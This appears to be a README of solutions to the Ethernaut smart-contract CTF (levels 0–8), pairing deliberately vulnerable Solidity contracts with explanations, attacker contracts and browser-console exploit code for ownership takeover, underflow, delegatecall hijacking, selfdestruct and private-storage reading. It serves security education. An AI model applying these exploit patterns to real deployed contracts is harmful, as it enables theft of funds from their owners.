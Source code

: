 # Ethernaut

My [Ethernaut](https://ethernaut.openzeppelin.com/) CTF Solutions.

## Table of Contents

<details>
<summary>
<a href="#00-hello-ethernaut">00. Hello Ethernaut</a>
</summary>
<ol>
    <li><a href="./contracts/00-hello-ethernaut/">Contracts</a></li>
    <li><a href="./scripts/00-hello-ethernaut.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#01-fallback">01. Fallback</a>
</summary>
<ol>
    <li><a href="./contracts/01-fallback/">Contracts</a></li>
    <li><a href="./scripts/01-fallback.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#02-fallout">02. Fallout</a>
</summary>
<ol>
    <li><a href="./contracts/02-fallout/">Contracts</a></li>
    <li><a href="./scripts/02-fallout.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#03-coin-flip">03. Coin Flip</a>
</summary>
<ol>
    <li><a href="./contracts/03-coin-flip/">Contracts</a></li>
    <li><a href="./scripts/03-coin-flip.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#04-telephone">04. Telephone</a>
</summary>
<ol>
    <li><a href="./contracts/04-telephone/">Contracts</a></li>
    <li><a href="./scripts/04-telephone.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#05-token">05. Token</a>
</summary>
<ol>
    <li><a href="./contracts/05-token/">Contracts</a></li>
    <li><a href="./scripts/05-token.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#06-delegation">06. Delegation</a>
</summary>
<ol>
    <li><a href="./contracts/06-delegation/">Contracts</a></li>
    <li><a href="./scripts/06-delegation.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#07-force">07. Force</a>
</summary>
<ol>
    <li><a href="./contracts/07-force/">Contracts</a></li>
    <li><a href="./scripts/07-force.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#08-vault">08. Vault</a>
</summary>
<ol>
    <li><a href="./contracts/08-vault/">Contracts</a></li>
    <li><a href="./scripts/08-vault.ts">Script</a></li>
</ol>
</details>

## 00. Hello Ethernaut

This is a warm-up task. Call `await contract.info()` in the console and follow the instructions.

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.info();
// 'You will find what you need in info1().'

// 2
await contract.info1();
// 'Try info2(), but with "hello" as a parameter.'

// 3
await contract.info2('hello');
// 'The property infoNum holds the number of the next info method to call.'

// 4
await contract.infoNum();
// {
//  ...
//  words: [42],
// };

// 5
await contract.info42();
// 'theMethodName is the name of the next method.'

// 6
await contract.theMethodName();
// 'The method name is method7123949.'

// 7
await contract.method7123949();
// 'If you know the password, submit it to authenticate().'

// 8
await contract.password();
// 'ethernaut0'

// 9
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Browser Console Solution For Cheaters</summary>

```javascript
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's cheat the next challenge! :running:

</details>

<a href='./contracts/00-hello-ethernaut/'>Contracts</a> | <a href='./scripts/00-hello-ethernaut.ts'>Script</a>

## 01. Fallback

### Challenge

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

In order to pass the challenge, we need to become the owner of the contract and withdraw the entire balance from the contract.

In the instance contract, the owner is set in 3 places:

1. Constructor. When deploying a contract.
2. Method `contribute`. To do this, we need to transfer at least 1 wei (but less than 0.001 Ether).
3. Method `receive`. This method is called every time we send Ether to a contract address without calling any contract function.

Understanding how `receive` works is the key to hacking this smart contract.

> You can read about how the `receive` function works in the [official docs](https://docs.soliditylang.org/en/v0.8.24/contracts.html#receive-ether-function), [stackexchange](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity).

The `receive` function checks the user has sent some non-zero amount of ether (at least 1 wei) and has already contributed some amount of ether (less than 0.001 ether) by calling the `contribute` method.

The hacking algorithm is as follows:

1. We call `contribute` and send 1 wei along with the function call.
2. We send to the contract address 1 wei. We are now the owner of the contract.
3. Call the `withdraw` function.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.contribute({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.sendTransaction({
  to: contract.address,
  value: _ethers.utils.parseUnits('1', 'wei'),
});

// 3
await contract.withdraw();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<a href='./contracts/01-fallback/'>Contracts</a> | <a href='./scripts/01-fallback.ts'>Script</a>

## 02. Fallout

### Challenge

Claim ownership of the contract below to complete this level.

Things that might help:

- Solidity Remix IDE

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {

  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

Since Solidity v0.4.23, constructors are now specified using the `constructor` keyword.
Before this version, the constructor was a function whose name was the same as the name of the contract.
Since Solidity [v0.5.0](https://docs.soliditylang.org/en/v0.8.24/050-breaking-changes.html#constructors) constructors must be defined using the `constructor` keyword.

The only place in the contract where the owner is set is in the `Fal1out` function. According to the creator of the contract, this should have been a constructor that would work once and could not be called again. In this case, hacking would not have been possible (for solidity version less than v0.5.0). However, the author made a typo in the name of the constructor and instead of `Fallout` it turned out to be `Fal1out`. And now we can easily withdraw money from the contract.

1. Call the `Fal1out` function. We become the owner of the contract.
2. Call the `collectAllocations` function. We get all the money from the contract.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.Fal1out({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.collectAllocations();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Real World Example Described By OpenZeppelin</summary>

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
}
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.

</details>

<a href='./contracts/02-fallout/'>Contracts</a> | <a href='./scripts/02-fallout.ts'>Script</a>

## 03. Coin Flip

### Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

This is a challenge to understand how randomness works on Ethereum. Since this is a deterministic environment, it is not possible to create unpredictable randomness. If you need to use random in your protocol, then it is better to use oracles ([Chainlink VRF](https://docs.chain.link/vrf)).

In order to complete the challenge, we need to guess which side will fall out 10 times in a row.
Since this is based on the hash of the previous block, it is possible to calculate in advance which side will land.
To do this, we will write an attack contract and run it in [Remix Online](https://remix.ethereum.org/) and make 10 calls to the attack functions. Thus, we get the same `blockValue` as the instance, since we launch them in one transaction.

</details>

<details>
  <summary>Attack Contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './CoinFlip.sol';

contract CoinFlipAttack {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip _coinFlip;

  constructor(CoinFlip coinFlip) {
    _coinFlip = coinFlip;
  }

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    _coinFlip.flip(side);
  }
}

```

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

</details>

<a href='./contracts/03-coin-flip/'>Contracts</a> | <a href='./scripts/03-coin-flip.ts'>Script</a>

## 04. Telephone

### Challenge

Claim ownership of the contract below to complete this level.

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

`tx.origin != msg.sender` gives the right to change the overner. This check will return `true` only if the CA (contract address) calls this function and not EOA (externally owned address).

To do this, we will write an attacker contract and run it in [Remix Online](https://remix.ethereum.org/).

</details>

<details>
  <summary>Attacker Contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Telephone.sol';

contract TelephoneAttacker {
  Telephone private _telephone;

  constructor(Telephone telephone) {
    _telephone = telephone;
  }

  function changeOwner() public {
    _telephone.changeOwner(msg.sender);
  }
}

```

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

</details>

<a href='./contracts/04-telephone/'>Contracts</a> | <a href='./scripts/04-telephone.ts'>Script</a>

## 05. Token

### Challenge

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

Solidity versions below 0.8.0 do not have overflow/underflow checking. Therefore, if we subtract 1 from the minimum value, we get the maximum possible value. We can use this to get more tokens than we are entitled to.

To protect yourself from this, in compiler versions below 0.8.0 we can use the [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math#SafeMath) library from OpenZeppelin.

So to get a large number of tokens we do the following:

1. We get our current balance of tokens.
2. We add 1 to it to cause underflow. Thanks to this, we will pass the `require(balances[msg.sender] - _value >= 0);` check and get a large number of tokens here `balances[msg.sender] -= _value;`
3. The challenge is completed.
</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
const initialBalance = await contract.balanceOf(player);

// 2
const amountToTransfer = initialBalance + 1;

// 3
await contract.transfer(_ethers.constants.AddressZero, amountToTransfer);
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

Overflows are very common in solidity and must be checked for with control statements such as:

```solidity
if(a + c > a) {
  a = a + c;
}
```

An easier alternative is to use OpenZeppelin's [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math#SafeMath) library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

`a = a.add(c);`

If there is an overflow, the code will revert.

</details>

<a href='./contracts/05-token/'>Contracts</a> | <a href='./scripts/05-token.ts'>Script</a>

## 06. Delegation

### Challenge

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help:

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

The `Delegation` contract has a `fallback` function that calls the `Delegate` contract function using `delegatecall`.

The `fallback` function fires when we try to call a non-existent contract function.

`delegatecall` is a low-level call that executes the code of the called function (any function from `Delegate`) within the framework of the calling smart contract (`Delegation`). We can say that the code is copied from the remote smart contract to the calling smart contract. Thus, when executing this code, the storage of the called smart contract (`Delegation`) is used.

Smart contract storage consists of 32-byte slots. In `Delegation` the `owner` is specified in the first slot and in `Delegate` the `owner` is specified in the first slot.

As we can see, in the `Delegate` contract the owner is set in the `pwn` function. If we call this function within the `Delegation` contract, we can set the owner of the `Delegation` contract.

In order for the `fallback` method to work, we need to pass `data` to call the `pwn()` function.

Here `data` represents the function signature. Function signature - 4 bytes from the hash of the function name and parameter types (`pwn()` = `0xdd365b8b`).

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
const methodId = _ethers.utils.id('pwn()').substring(0, 10);

// 2
await sendTransaction({ from: player, to: contract.address, data: methodId });
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.

</details>

<a href='./contracts/06-delegation/'>Contracts</a> | <a href='./scripts/06-delegation.ts'>Script</a>

## 07. Force

### Challenge

Some contracts will simply not take your money ¯\_(ツ)\_/¯

The goal of this level is to make the balance of the contract greater than zero.

Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {
/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/
}

```

</details>

### Solution

<details>
  <summary>Description</summary>

In order to transfer ether to a contract address there are 3 [ways](https://solidity-by-example.org/sending-ether/):

- transfer
- send
- call

However, in order for the transfer to work, fallback functions must be implemented on the side of the called contract (`receive` or `fallback`).

The instance contract does not implement fallback functions. Therefore, we cannot use the above methods for our purpose.

However, there is a way to force ether to be sent to any contract. Using [`selfdestruct`](https://solidity-by-example.org/hacks/self-destruct/) we can send all the ethers from the balance of our contract to the specified address (including CA).

</details>

<details>
  <summary>Attacker Contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttacker {
  address forceAddress;

  constructor(address _forceAddress) {
    forceAddress = _forceAddress;
  }

  function attack() public payable {
    selfdestruct(payable(forceAddress));
  }
}
```

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.

</details>

<a href='./contracts/07-force/'>Contracts</a> | <a href='./scripts/07-force.ts'>Script</a>

## 08. Vault

### Challenge

Unlock the vault to pass the level!

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}

```

</details>

### Solution

<details>
  <summary>Description</summary>

In order to hack the contract, we need to set the `locked` variable to `false`. To do this we need to know `password`. This variable is private and is set in the constructor.

However, everything that is in the blockchain (storage variables) is public. And we can get the value of any variable from storage.
The location of the variable in storage depends on its location in the smart contract and on the data type.

We have 2 storage variables:

1. `bool public locked`. Located in storage slot 0.
2. `bytes32 private password`. Located in 1 storage slot.

Using an rpc call, we can find out what value is located in a specific contract slot and thus obtain the `password`:
`await web3.eth.getStorageAt(contract.address, 0x1);`

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
const password = await web3.eth.getStorageAt(contract.address, 0x1);

// 2
await contract.unlock(password);
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Comments From OpenZeppelin</summary>

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

</details>

<a href='./contracts/08-vault/'>Contracts</a> | <a href='./scripts/08-vault.ts'>Script</a>
